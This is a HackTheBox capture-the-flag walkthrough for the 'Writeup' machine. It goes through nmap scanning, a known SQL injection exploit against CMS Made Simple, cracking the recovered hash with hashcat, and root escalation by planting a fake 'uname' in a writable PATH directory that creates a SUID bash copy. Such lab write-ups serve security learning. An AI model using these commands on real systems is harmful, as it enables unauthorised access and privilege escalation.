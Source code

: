 ```yaml
---
title: "HackTheBox - Writeup"
author: Nasrallah
description: ""
date: 2023-02-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, sqli, hashcat, cracking]
img_path: /assets/img/hackthebox/machines/writeup
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

## **Description**

Hello hackers, I hope you are doing well. We are doing [Writeup](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.138
Host is up (0.18s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd5310700bd0470ae27e4ab6429823c7 (RSA)
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running SSH and 80 running an Apache http web server.

There is a robots.txt file in the web server with a disallowed entry of `/writeup`

### Web

Let's navigate to the web page.

![](1.png)

Here we got a message form `jkr` stating that there is a script in place where it watches for 40x error in Apache and bans IPs, so we cant't really run gobuster or any other automated tool.

Let's check the /writeup directory.

![](2.png)

This is where the author put writeups.

Checking the source code, we find that this page is generated by CMS Made Simple

![](3.png)

Checking the `source code: svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/doc/) of this CMS, we find the file` /docs/CHANGELOG.txt` reveals the current version of the used CMS.

On the target system, we find that the version is 2.2.9.1.

### Searchsploit

Let's check if this version has any vulnerabilities.

```terminal
└──╼ $ searchsploit made simple  2.2
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                                                        | php/webapps/4810.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authenticated)                                                              | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Upload                                                                | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting (Authenticated)                                                    | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)                                                                 | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)                                                                                | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authenticated)                                    | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                               | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                               | php/webapps/45793.py
CMS Made Simple < 2.2.10 - SQL Injection                                                                                    | php/webapps/46635.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                
```

There is a sql injection vulnerability, let's copy the exploit with `searchsploit -m php/webapps/46635.py`

## **Foothold**

Now let's run the exploit.

![](4.png)

The exploit gave us a username, a salt and a hash.

Let's combine the salt and hash and put it in a file to crack it.

```bash
$ cat hash.txt
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Using hashcat with mode 20 and rockyou wordlist to crack the hash.

![](5.png)

We got the password, now we can ssh into the machine.

![](6.png)

## **Privilege Escalation**

By running the command id, we notice that user jkr, is part of a group called `staff`.

```terminal
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

After running linpeas. we also see that this group has write permission over `/usr/local/*`.

![](7.png)

Also the PATH starts with the /usr/local/bin directory

```terminal
jkr@writeup:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

We can use this to exploit any binary that's running without a full path.

Using [pspy64](https://github.com/DominicBreuker/pspy) we can see any commands or cronjob that are running on the system. Let's see if we can find a binary that's running without a full path.

![](8.png)

There were no cronjobs running, so i tried to ssh into the machine again and captured the command uname running without a path.

With the following command, i created a `uname` script that's going to make copy of bash with suid bit.

```bash
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' > /usr/local/bin/uname && chmod +x /usr/local/bin/uname
```

Now we ssh again and run `/tmp/bash -p`

![](9.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
